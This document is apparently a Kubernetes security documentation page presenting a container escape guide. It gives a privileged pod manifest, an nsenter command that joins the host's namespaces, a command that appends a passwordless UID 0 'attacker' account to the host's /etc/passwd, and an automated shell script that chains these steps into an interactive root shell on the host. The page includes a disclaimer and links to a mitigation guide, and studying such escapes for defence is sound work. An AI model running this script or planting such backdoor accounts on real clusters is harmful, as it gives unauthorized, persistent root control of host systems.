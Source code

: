 ```yaml
---
sidebar_position: 8
title: "Container Escape Guide"
description: "Step-by-step guide on breaking out of a container and gaining control over the host system."
---
```


# Container Escape Guide

This guide provides a detailed walkthrough of escaping from a container to gain full control over the host system. The process involves entering the host's namespaces and modifying critical system files.

## **Warning: Security Risk**

**The information and the script included in this article are intended for educational and security research purposes only.** It demonstrates how an attacker can escape a container and gain access to the host system. Running this script on a production system or unauthorized environment can lead to **severe security breaches, data loss, and system compromise.**

**Use this script only in a controlled, isolated testing environment where you have explicit permission.** Misuse of this information may violate company policies or legal regulations.

**You are responsible for how you use this information.** Proceed with caution.

---

## Prerequisites

To successfully escape from a container, the following conditions must be met:

- The container must run as root (`runAsUser: 0`).
- `allowPrivilegeEscalation: true` must be enabled.
- `hostPID: true` must be set to share the host’s process namespace.
- The container must have access to `/proc/1/root`, which exposes the host’s root filesystem.
- The container must have permission to execute `nsenter`.
- The `/proc` filesystem must be accessible from within the container.
- The container must be running in privileged mode (`privileged: true`).

## Step 1: Deploy a Test Pod with Required Privileges

To demonstrate container escape, use the following YAML file to create a privileged pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: test
  name: test
spec:
  hostPID: true
  containers:
    - image: busybox
      command: ["sleep", "infinity"]
      securityContext:
        runAsUser: 0
        allowPrivilegeEscalation: true
        privileged: true
      name: test
      resources: {}
  dnsPolicy: ClusterFirst
  restartPolicy: Always
status: {}
```

Apply the pod to the cluster:

```bash
kubectl apply -f test-pod.yaml
```

## Step 2: Identify the Container Environment

Before attempting to escape, check if the container is running with elevated privileges and shares the host’s process namespace.

### Check the Container’s Mount Namespace

Run inside the container:

```bash
ls -l /proc/1/ns/mnt
```

Example output:

```
lrwxrwxrwx 1 root root 0 Mar 17 16:38 /proc/1/ns/mnt -> 'mnt:[4026535581]'
```

This confirms that the container is isolated in a separate mount namespace from the host. We’ll override that using `nsenter`.

---

## Step 3: Escape to the Host’s Namespaces

Use `nsenter` to enter the host’s namespaces. This method is more reliable than attempting bind-mounts.

```bash
nsenter --target 1 --mount --uts --ipc --net --pid /bin/sh
```

Once inside, verify access:

```bash
hostname
whoami
```

If you’re in the host, you will see the host’s actual hostname and be root.

---

## Step 4: Create a Root User on the Host

Now that we’re inside the host context, you can add a root-level user to the host for persistence:

```bash
echo 'attacker:x:0:0::/root:/bin/bash' >> /etc/passwd
```

To verify:

```bash
grep attacker /etc/passwd
```

Expected output:

```
attacker:x:0:0::/root:/bin/bash
```

This creates a user named `attacker` with UID 0 (root privileges).

---

## **Automated Container Escape Script**

The following script automates the process of escaping a container by:

- Entering the host’s namespaces.
- Adding a new root user for persistence.
- Providing an interactive shell on the host.

```bash
#!/bin/sh

echo "[*] Checking if the container has access to the host's root filesystem..."
if [ ! -d "/proc/1/root" ]; then
    echo "[-] Cannot access /proc/1/root. Escape is not possible."
    exit 1
fi

echo "[+] Host root filesystem detected at /proc/1/root."

# Step 1: Ensure full namespace entry using exec nsenter
echo "[*] Attempting to enter the host's namespaces..."

exec nsenter --target 1 --mount --uts --ipc --net --pid --root=/proc/1/root /bin/sh -c '
    echo "[+] Successfully entered host namespaces."

    # Step 2: Modify /etc/passwd on the host to add an attacker user
    echo "[*] Adding attacker user to /etc/passwd..."
    echo "attacker:x:0:0::/root:/bin/bash" >> /etc/passwd

    echo "[+] Attacker user added. Verifying..."
    grep attacker /etc/passwd

    echo "[+] Escape complete. You are now inside the host."

    # Step 3: Verify the escape
    echo "[*] Checking system state..."
    echo "Hostname: $(hostname)"
    echo "User: $(whoami)"
    echo "[*] Checking if host kubelet process is visible..."
    ps aux | grep kubelet

    # Step 4: Open an interactive shell inside the host
    exec /bin/sh
'
```

---

## Conclusion

You successfully escaped the container by:

1. Deploying a privileged pod with `hostPID: true`.
2. Using `nsenter` to join the host’s namespaces.
3. Adding a root user to the host.
4. Gaining an interactive root shell on the host.

To learn how to prevent container escape vulnerabilities, refer to the mitigation guide:

➡ [Preventing Container Escape](https://geek-kb.github.io/k8s_security/docs/best_practices/cluster_setup_and_hardening/pod_security/container_escape_mitigation/)

